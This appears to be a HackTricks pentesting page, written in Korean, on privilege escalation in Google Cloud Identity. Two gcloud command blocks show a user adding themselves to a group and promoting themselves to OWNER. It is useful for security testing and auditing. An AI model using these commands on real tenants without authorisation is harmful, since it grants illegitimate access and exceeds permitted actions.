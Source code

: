 # GCP - Cloudidentity Privesc

{{#include ../../../banners/hacktricks-training.md}}

## Cloudidentity

cloudidentity 서비스에 대한 자세한 정보는 이 페이지를 확인하세요:

{{#ref}}
../gcp-services/gcp-iam-and-org-policies-enum.md
{{#endref}}

### 그룹에 자신 추가하기

사용자에게 충분한 권한이 있거나 그룹이 잘못 구성된 경우, 그는 새 그룹의 구성원으로 자신을 추가할 수 있습니다:
```bash
gcloud identity groups memberships add --group-email <email> --member-email <email> [--roles OWNER]
# If --roles isn't specified you will get MEMBER
```
### 그룹 구성원 수정

사용자에게 충분한 권한이 있거나 그룹이 잘못 구성된 경우, 그는 자신이 구성원인 그룹의 OWNER가 될 수 있습니다:
```bash
# Check the current membership level
gcloud identity groups memberships describe --member-email <email> --group-email <email>

# If not OWNER try
gcloud identity groups memberships modify-membership-roles --group-email <email> --member-email <email> --add-roles=OWNER
```
{{#include ../../../banners/hacktricks-training.md}}
